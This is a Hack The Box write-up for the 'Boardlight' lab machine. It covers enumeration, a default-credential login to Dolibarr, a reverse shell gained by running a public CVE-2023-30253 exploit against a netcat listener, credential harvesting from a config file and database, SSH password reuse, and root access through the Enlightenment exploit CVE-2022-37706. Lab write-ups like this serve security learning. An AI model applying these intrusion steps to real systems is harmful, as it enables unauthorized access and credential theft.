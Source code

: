 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Boardlight
tags: []
---
```

**Start 22:40 11/07**

First off we start with active recon. Use `nmap -sT -A 10.10.11.11` and we get the following output:

![](../../../assets/793de3da66200d4209d15f326ced76eb.png)

We see an open port `22 - SSH` and `80 - HTTP`. 

After visiting the website we see a contact form on `/contact.php?`. After submitting a test text message it refreshed the page thus it seems some functionality has been implemented. 

Afterwards we run a directory scan using `dirb` to find out what else can be found.
We find some directories but for most we do not have the permission to access them:

![](../../../assets/90ec06fd9744774da477f60b5ae5878d.png)


![](../../../assets/6c7b5f363181d46eb628032b7376d730.png)

None of the directories were useful, which means it is time to start looking for subdomains.
To look for subdomains we'll be using `ffuf` to enumerate any other subdomains.
For this we will use the following command:
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949

![](../../../assets/f7fea7bb56607a1799f1f68530d5cc2f.png)

Right away we find a couple of interesting subdomains such as `crm` and `CRM`. Right about now it would be smart to edit the `/etc/hosts` file to add the `crm.board.htb` as well as `board.htb` under the machine IP. 
After adding the subdomain to the `/etc/hosts` file we gain access to the following website:

![](../../../assets/77534b539216aa029fb90cef59460108.png)

Here we see that it is powered by Dolibarr 17.0.0. Right away we can try to access it using basic credentials. I've tried a couple until `admin - admin`did the trick.

![](../../../assets/324cd31a13079b04315bb91b408db030.png)

After looking up whether there's any CVE's available for this version of Dolibarr we find the following `CVE-2023-30253`:

![](../../../assets/aa969786ce644e0069003391ec1fca1b.png)

After clicking the *see more details about vulnerability here* button we get traced to the following website https://www.swascan.com/security-advisory-dolibarr-17-0-0/ where we find the proof of concept of the CVE.

Just download and extract the `exploit.py` file, then follow the instructions of the Github page by starting `nc -lvnp 9001` and in another terminal type `python3 exploit.py http://crm.board.htb admin admin MACHINE_IP 9001`

If all went correctly (you might have to try multiple times) it should look something like this:

![](../../../assets/e73ae944f09910aedc0edae835583034.png)


![](../../../assets/615067041772c56e098e3eae4837e924.png)

After moving to the `/home` directory we find a user `larissa` which we do not have access to.
To obtain access we need to understand how Dolibarr works. For that we can visit the following website https://wiki.dolibarr.org/index.php?title=Configuration_file 

We need to find the `conf` file so we do a search like `find / -type d -name 'conf' 2>/dev/null` 

![](../../../assets/df5bf7c4ec6c3ed5ddb2cc31b5f35906.png)

Here we find a few files of which `conf.php` is one, `cat` this file and you get the following:

![](../../../assets/4c73c427e5249d56b30da95e3dfb36b6.png)

We see mentions of `port 3306` having a `MySQL` database running, we can try and connect to it with the provided `user` and `pass` -> `dolibarrowner`  -  `serverfun2$2023!!`. 

Connect to it using `mysql -u dolibarrowner -p`.

![](../../../assets/fdd000957219d7380e7830cbc0c4defa.png)

Of these `DATABASES` we will view the one called `dolibarr` first. After entering `use dolibarr;` we type `SHOW TABLES;` to view the different tables inside the chosen db. We get a really extensive list of `llx_` tables. Scrolling through them we find one that stands out, `llx_user`.

![](../../../assets/a29b5ef6ec72af0e8f6f8336528c0165.png)

Index this table using `SELECT * FROM llx_user;`

![](../../../assets/442ac5825eb8560c73c52e4d4d6a4606.png)

Now we see the whole `llx_user` table with all it's contents. Here we'll try to crack the `dolibarr` superadmin hash -> `$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`.
After trying to crack the hash we get nothing useful. 

Let's backtrack before diving deeper into the rabbit hole. We also know that `port 22 - SSH` is open. We have found a user called `larissa` in the `/home` directory. It is possible that this user recycles their passwords, thus we should try logging into `SSH` using the same password.

We try to connect using `ssh larissa@10.10.11.11` and using the same password as with the `SQL db` we gain access to the `SSH` port.

![](../../../assets/d624bd9eb5385f5fce17f52f4325a61d.png)

In the same directory we'll find the `user.txt` flag. 

![](../../../assets/90f7e8c136f8e306165b559ff5169c46.png)

After trying `sudo -l` to see sudo privileges we get the following text:

![](../../../assets/b7cad982bbfc2be8f6f4cb7d6a8309b3.png)

Now we'll check the [SUID/GUID](Linux%20Privilege%20Escalation.md#SUID/GUID) privileges for this user using the following command
`find / -perm -u=s -type f 2>/dev/null`. With this command we'll be checking to find any files with `SUID` privileges. 

![](../../../assets/f88da4604dbdcd692e23449dcbfc64b0.png)

One thing that stands out is the program called `enlightenment` that is running. After looking it up on Google we find the following information:

![](../../../assets/b72147fafae18f6e11c39d4da8964a80.png)

It appears to be a window manager for Linux. We can look up any exploits for this program to see if there's a CVE made for it.

Luckily for us there's a ready CVE on Github -> `CVE-2022-37706` meaning we just have to download the zip code and extract the exploit.

![](../../../assets/cf37474f6a5ff20d7509f97d4b931fa8.png)

After downloading the zip file, extracting it to our `/home` directory and `chmod +x` the file we can run it by using `./exploit.sh`.

![](../../../assets/a849f45ac0360c008567aa00ac36cec6.png)

Just like that we have gained `root` privileges.
Now we need to find the `root.txt` flag.

![](../../../assets/1082e75d7ab075155586b642d037ef87.png)

As always it is placed in the `/root` directory.

![](../../../assets/5f9f775c3b0b51088a20f277a500afa9.png)

**Finished 11:08 13/07**  

Links: [[Hack The Box]] 
